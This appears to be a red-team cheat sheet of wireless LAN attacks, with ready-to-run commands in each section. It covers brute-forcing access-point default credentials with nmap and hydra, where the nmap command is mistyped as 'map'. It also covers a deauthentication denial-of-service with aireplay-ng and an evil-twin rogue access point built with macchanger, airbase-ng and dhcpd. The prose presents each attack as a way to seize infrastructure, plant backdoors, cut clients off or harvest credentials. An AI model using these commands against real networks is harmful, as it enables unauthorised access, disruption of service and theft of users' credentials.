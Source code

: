 # Attacks On Wlan 

**Category:** ATTACKS ON THE WLAN
## Cracking Default Accounts on the Access Points
This attack targets poorly secured or unconfigured access points that still use factory-default usernames and passwords for administrative interfaces. It is best used during post-association enumeration or from a wired segment when an attacker wants to pivot or fully take control of the wireless infrastructure. Once access is gained, the attacker can alter settings, create backdoors, or disable security entirely. It is effective because many consumer and even enterprise APs are shipped with known credentials, and users often fail to change them, making this a low-effort, high-impact technique.
```
map -p 80 --script http-default-accounts [router IP]
hydra -l admin -P /usr/share/wordlists/rockyou.txt [router IP] http-get /
```

**Category:** ATTACKS ON THE WLAN
## Deauthentication DoS Attack
The Deauthentication Denial-of-Service (DoS) attack involves continuously sending spoofed de-authentication frames to clients, severing their connection to the wireless network. It is most useful during active red team operations or assessments where disruption is the goal, or when trying to isolate a device or capture handshakes. The attack is effective due to the unauthenticated nature of management frames in Wi-Fi standards, making it simple to execute and nearly impossible for clients to defend against without additional protections like 802.11w.

```bash
airmon-ng start wlan0  # Enables monitor mode on wlan0, creating a monitor interface (e.g., mon0) for packet injection/sniffing
airodump-ng mon0       # Scans and displays nearby wireless networks and clients using the monitor mode interface
aireplay-ng --deauth 1000 -a [target AP MAC] mon0  
                       # Sends 1000 deauthentication frames to the target access point (AP)
                       # Forces all connected clients to disconnect from the AP (useful for handshake capture or denial of service)


```
## Evil Twin with MAC Spoofing
The Evil Twin with MAC Spoofing attack involves setting up a rogue access point that not only mimics the SSID of a legitimate network but also clones its MAC address to increase believability. This technique is particularly useful when attempting to impersonate an enterprise or captive portal network where MAC address filtering is in place or clients expect a specific BSSID. It is effective because it enhances the likelihood that client devices will auto-connect, especially when the real AP is jammed or otherwise inaccessible, enabling seamless credential harvesting or man-in-the-middle attacks.

```bash
airmon-ng start wlan0  # Enables monitor mode on wlan0, allowing packet injection/sniffing; creates mon0 or wlan0mon
airodump-ng mon0    # Scans nearby wireless networks and clients to gather info (e.g., ESSID, BSSID, channel) for impersonation
macchanger --mac [spoofed MAC] wlan0  # Spoofs the MAC address of wlan0 to mimic the target AP or anonymize your interface
airbase-ng -e [ESSID] -c [channel] -a [spoofed MAC] mon0  
                              # Creates a rogue AP with the same ESSID and MAC as the target on the specified channel
                              # Uses monitor mode interface (mon0) to broadcast the fake access point
ifconfig at0 up               # Brings up the virtual TAP interface (at0) created by airbase-ng to handle client connections
dhcpd at0  # Starts a DHCP server on interface at0 to assign IP addresses to connecting clients
```